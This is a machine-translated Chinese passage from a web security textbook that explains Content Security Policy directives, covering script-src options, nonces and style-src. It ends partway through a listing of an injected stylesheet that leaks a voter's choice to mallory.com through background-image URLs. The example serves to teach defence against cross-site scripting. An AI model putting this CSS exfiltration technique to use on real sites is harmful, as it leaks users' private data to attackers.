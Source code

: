这项政策提供了很多保护，但本身相当严格。大多数程序员希望使用内联 JavaScript 和 CSS 来开发 UI 功能。在下一节中，我将向您展示如何通过特定于内容的策略 例外在安全性和特性开发之间取得平衡。

脚本-src 指令

顾名思义， `script-src` 指令适用于 JavaScript。这是一个重要的指令，因为 CSP 的主要目标是提供一个针对 XSS 的防御层。之前你看到爱丽丝通过组合 `script-src` 和 `none` 来源来抵抗马洛里。这减轻了所有形式的 XSS，但却是矫枉过正。一个 `none` 源阻塞所有的 JavaScript 执行，包括内联脚本以及那些与响应来源相同的脚本。如果你的目标是创建一个极其安全而又无聊的网站，这就是你的来源。

`unsafe-inline`来源占据了风险谱的另一端。这个源代码允许浏览器执行 XSS 向量，比如内联 `<script>` 标签、JavaScript:URL 和内联事件处理程序。顾名思义， `unsafe-inline` 有风险，你要避开。

你也要避开 `unsafe-eval` 来源。这个源代码允许浏览器从字符串中计算和执行任何 JavaScript 表达式。这意味着以下所有内容都是潜在的攻击媒介:

*   `eval(string)`功能

*   `new Function(string)`

*   `window.setTimeout(string, x)`

*   `window.setInterval(string, x)`

如何在 `none` 的无聊和`unsafe-inline``unsafe-eval`的风险之间取得平衡？用一个 *nonce* ( *号用一次* )。这里以粗体显示的随机数源包含唯一的随机数，而不是静态值，如 `self` 或 `none` 。根据定义，每个响应的数字都是不同的:

```py
Content-Security-Policy: script-src 'nonce-EKpb5h6TajmKa5pK'
```

如果浏览器收到此策略，它将执行内联脚本，但只执行那些具有匹配 `nonce` 属性的脚本。例如，该策略允许浏览器执行以下脚本，因为粗体显示的 `nonce` 属性是匹配的:

```py
<script nonce='EKpb5h6TajmKa5pK'>
   /* inline script */
</script>
```

随机数源如何减轻 XSS？假设爱丽丝给 bank.alice.com 增加了这一层防御。Mallory 随后发现了另一个 XSS 漏洞，并计划再次将恶意脚本注入 Bob 的浏览器。为了成功地实施这次攻击，Mallory 必须用 Bob 将从 Alice 接收到的相同 nonce 来准备脚本。马洛里无法提前知道随机数，因为爱丽丝的服务器还没有生成随机数。此外，马洛里猜测正确数字的可能性几乎为零；比起瞄准爱丽丝的银行，在拉斯维加斯赌博会给她更好的发财机会。

随机数源减轻了 XSS，同时支持内联脚本执行。它是两全其美的，像 `none` 一样提供安全性，像 `unsafe-inline` 一样方便特性开发。

style-src 指令

如 顾名思义， `style-src` 控制浏览器如何处理 CSS。像 JavaScript 一样，CSS 是 web 开发人员交付功能的标准工具；它也可能因 XSS 袭击而被武器化。

假设 2024 年美国总统大选正在进行。整个选举归结为两个候选人:鲍勃和伊夫。有史以来第一次，选民可以在查理的新网站 ballot.charlie.com 上在线投票。Charlie 的内容安全策略阻止了所有的 JavaScript 执行，但是没有解决 CSS 问题。

马洛里发现了另一个反映 XSS 的机会。她给爱丽丝发了一封恶意链接的邮件。Alice 单击该链接并收到清单 15.1 所示的 HTML 页面。该页面包含一个包含两个候选人的下拉列表，作者是 Charlie 它还包含一个注入的样式表，由 Mallory 编写。

Mallory 的样式表动态设置 Alice 检查的选项的背景。此事件触发对背景图像的网络请求。不幸的是，网络请求还以查询字符串参数的形式透露了 Alice 对 Mallory 的投票。马洛里现在知道爱丽丝投了谁的票。

清单 15.1 Mallory 在 Alice 的浏览器中注入了一个恶意的样式表

```py
<html>

    <style>                                                    ❶
        option[value=bob]:checked {                            ❷
            background: url(https://mallory.com/?vote=bob);    ❸
        }
        option[value=eve]:checked {                            ❹
            background: url(https://mallory.com/?vote=eve);    ❺
        }
    </style>

    <body>
        ...
        <select id="ballot">
            <option>Cast your vote!</option>
```